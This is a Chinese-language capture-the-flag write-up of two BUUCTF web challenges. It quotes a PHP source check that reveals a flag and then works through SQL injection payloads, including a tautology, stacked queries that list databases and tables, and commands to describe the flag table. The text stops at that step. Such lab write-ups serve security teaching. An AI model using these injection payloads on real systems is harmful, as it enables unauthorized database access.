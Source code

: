 ## [极客大挑战 2019]Havefun

右击查看源代码，发现关键代码

```php
                <!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
```

根据源码令$cat==dog即可获得flag，所以payload为

```
?cat=dog
```

![1626069305939](buuweb_page1.assets/1626069305939.png)

## [强网杯 2019]随便注

考察点:堆叠注入以及mysql数据库的操作

查询一下所有数据

```sql
-1'or '1'='1
```

![1626070045770](buuweb_page1.assets/1626070045770.png)

想着fuzz一下，发现给了正则

```sql
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

这也意味着我们不能使用联合查询来进行注入。没有过滤show，可以试一下堆叠注入

```sql
1';show databases;#
```

![1626070197998](buuweb_page1.assets/1626070197998.png)

查看表名

```sql
1';show tables;#
```

![1626070271531](buuweb_page1.assets/1626070271531.png)

在数字表里发现了flag

```sql
1';desc `1919810931114514`;#
1';show columns from `1919810931114514`;#
```
